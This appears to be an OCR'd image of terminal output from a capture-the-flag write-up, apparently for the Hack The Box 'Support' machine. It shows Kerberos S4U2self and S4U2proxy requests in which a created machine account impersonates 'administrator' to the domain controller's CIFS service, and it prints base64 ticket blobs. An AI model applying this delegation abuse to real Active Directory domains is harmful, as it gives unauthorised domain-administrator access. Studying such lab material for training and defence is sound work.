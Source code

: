 ```bash
    MXpwIk/EgmaSOCdpjTjTYWkLcNY0qsb0AvwHT78IkboSDSBbWxrky8UquVGk5GqOlzOnenAfcIvQhajD
    v9IIJ+amGFqAIoa8QoNX8b1iT9x/csv/HNaiOztcsCyWNYmdxLescqTQgjp8aKwkIjx5q/A7p+KQeZPC
    NJJHSs0jp2cuv9z4hPqGaBKcshLHBnwSen4eBDBixzfsPAwsljlV6d24d/LpqtzoCUywqtfQzidZNdIu
    o4NUipJswWHBBYW99f+a8ZeAed2PQ8P+QxK9/7ReNCgy2OKXSDth2SvTTDbRrU3NqXja3AaIV7qF+Ovv
    GY/MKFy0SfgzdQPYS+f73ax+KgRCV2c4GJ0IYDuqb+o98qicwyxvAT22qfYd/Hx03brwu9bBC6dLfrti
    XWXvRerLW5jBjpP5aZ6Fr5AclbgudVqWoPU2QVbTfM5n1XUGkne1/VTnH7g9K+j4Fv7Km3J7nnWUVzAE
    dQVYs6TKG2pZLL7zZmFx2KfZWstIymEkSMiuxbrzu0nU2rc/XndgIvysoX3+vpZ+R4QZNf8+UXx+GxSC
    vhLn1auLGP8ET2kfMK6WLjgEPSVYwEuf4e9gp3QkGAnqCyi2wA3oP+QkFY7uMdq6Bf1hgzF6JceanOHF
    1VXdJqEGqhzcfCevQ8GmB6Ed1TrB/eMBi+X3dv1FsiFRXquJuTa+RGG+e9hrqHrSsidmF30jofHa86/y
    Vz6vsNn6fyKDhoZzLD/tavtQKmMfqE8MfS9Ccl36aJ3qALdYUHjf4JaEexTXFZEU7YIXLIcAerCO5K+M
    CnATzixGFB4WNI4HPuV7qJazFi6bsuEV7jzip76KD6e8QOhkV5r+HI3Z5FKZ3bPhBG7KEhcP4BWqGYId
    ix8ae0FVAm93/d6bFfEoG8hH3bknWkTgBjj53dXUCWW+9yPf86kEzG1WJ0pdzhXpcpOuRxR6rFd08/nz
    FRYlfMAiYl4gC5wmXH6wULx8H1jXowV+kLUroMc6gRKtZ3FRtBKvE1Y83zsXDMxPhAf3uwVL3UT26X9E
    EPJSsjKeQkTFisGGXXNidTnjNs2EeGoaNgITFgUoLIDkfFd5VwtKo4HUMIHRoAMCAQCigckEgcZ9gcMw
    gcCggb0wgbowgbegGzAZoAMCARehEgQQr9CighIcPaIDS0zuhqcXK6ENGwtTVVBQT1JULkhUQqIWMBSg
    AwIBAaENMAsbCTB4VzQzbFBDJKMHAwUAQOEAAKURGA8yMDI1MDQyMTIwMDIzMFqmERgPMjAyNTA0MjIw
    NjAyMzBapxEYDzIwMjUwNDI4MjAwMjMwWqgNGwtTVVBQT1JULkhUQqkgMB6gAwIBAqEXMBUbBmtyYnRn
    dBsLc3VwcG9ydC5odGI=


[*] Action: S4U

[*] Using domain controller: dc.support.htb (10.10.11.174)
[*] Building S4U2self request for: '0xW43lPC$@SUPPORT.HTB'
[*] Sending S4U2self request
[+] S4U2self success!
[*] Got a TGS for 'administrator@SUPPORT.HTB' to '0xW43lPC$@SUPPORT.HTB'
[*] base64(ticket.kirbi):

    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

[*] Impersonating user 'administrator' to target SPN 'cifs/dc.support.htb'
[*] Using domain controller: dc.support.htb (10.10.11.174)
[*] Building S4U2proxy request for service: 'cifs/dc.support.htb'
[*] Sending S4U2proxy request
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/dc.support.htb':

    doIGmDCCBpSgAwIBBaEDAgEWooIFnjCCBZphggWWMIIFkqADAgEFoQ0bC1NVUFBPUlQuSFRCoiEwH6AD
```